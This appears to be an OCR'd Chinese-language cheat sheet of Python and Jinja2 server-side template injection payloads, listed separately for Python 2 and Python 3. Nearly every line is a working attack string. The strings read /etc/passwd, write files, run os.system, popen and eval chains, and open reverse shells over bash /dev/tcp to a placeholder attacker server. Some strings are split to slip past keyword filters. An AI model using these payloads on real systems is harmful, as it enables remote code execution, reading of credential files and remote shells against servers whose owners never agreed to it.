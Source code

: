 > 



```
#python2有file
#读取密码
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
#写文件
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evil.txt', 'w').write('evil code')
#OS模块
system
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].system('ls')
popen
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()
#eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
#__import__
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
#反弹shell
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('bash -i &gt;&amp; /dev/tcp/你的服务器地址/端口 0&gt;&amp;1').read()
().__class__.__bases__[0].__subclasses__()[59].__init__.__getattribute__('func_global'+'s')['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i &gt;&amp; /dev/tcp/xxxx/9999 0&gt;&amp;1"')
注意该Payload不能直接放在 URL 中执行 , 因为 &amp; 的存在会导致 URL 解析出现错误，可以使用burp等工具
#request.environ
与服务器环境相关的对象字典

```

> 



```
#python3没有file，用的是open
#文件读取
{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}
{{().__class__.__base__.__subclasses__[177].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("dir").read()')}}
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].system('ls')

```

> 


